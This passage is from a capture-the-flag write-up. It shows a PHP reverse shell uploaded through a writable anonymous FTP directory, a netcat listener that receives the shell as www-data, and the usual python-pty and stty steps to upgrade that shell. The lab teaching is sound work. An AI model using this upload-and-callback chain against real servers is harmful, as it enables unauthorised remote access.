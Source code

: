 ```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||37359|)
553 Could not create file.
```

Yikes. Seems like in this directory, we don't have permission to upload files. Let's try to upload it to the `ftp`
directory instead.

```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||41137|)
150 Ok to send data.
100% |*********************************************************|  5493       41.57 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (8.22 KiB/s)
```

Bingo! Going back to `http://<ip>/files/ftp/`, we see that the file has successfully been uploaded.

I set up a netcat listener on my machine to listen for port 1234 that I set in the script. Clicking on the php file...

```bash
┌──(kairos㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [<host_ip>] from (UNKNOWN) [<ip>] 58206
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:58:30 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Successfully got a shell! But it's not a full interactive shell yet. To upgrade it:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
zsh: suspended  nc -lvnp 1234

┌──(kairos㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1234
                               www-data@startup:/$ ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```
